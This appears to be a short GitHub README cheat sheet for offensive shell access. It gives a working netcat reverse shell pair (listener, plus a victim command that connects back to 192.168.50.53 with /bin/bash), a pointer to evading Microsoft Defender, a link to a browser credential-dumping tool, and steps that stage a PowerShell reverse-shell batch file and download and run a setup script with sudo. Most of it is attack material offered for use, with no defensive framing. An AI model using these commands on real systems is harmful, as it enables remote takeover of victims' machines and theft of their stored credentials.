 # ShellCode

### Shell Generator Resources(Reverse, Bind, HoaxShell, MSFVenom)
[Shell Generator](https://www.revshells.com) 


**MAC OS Reverse Shell Example:** (Last tested 11/24)

- Attacker: nc -lvnp 1337

- Victim: nc 192.168.50.53 1337 -e /bin/bash

**Windwos 11 Reverse Shell Example:**

- cat & mouse game to bypass Microsoft Defender
Useful resource: [Youtube](https://www.youtube.com/watch?v=SYM4i474JqM)

### Browser Extensions
[Hack-Tools Chrome Extension](https://chromewebstore.google.com/detail/hack-tools/cmbndhnoonmghfofefkcccljbkdpamhi)

### Dump Web-Browser Creds
[git](https://github.com/moonD4rk/HackBrowserData.git) (Last tested 11/24)

### Spin Up a local Web Server on Linux (Last tested 11/24)
To set up a web server and host your script, follow these steps:

   ```bash
   touch powershellreverse.bat
   echo "<ShellCode here>" > powershellreverse.bat
   wget https://github.com/NickolayMOmelchenko/ShellCode/raw/refs/heads/main/setup_windows_website.sh
   chmod +x setup_windows_website.sh
   sudo ./setup_windows_website.sh

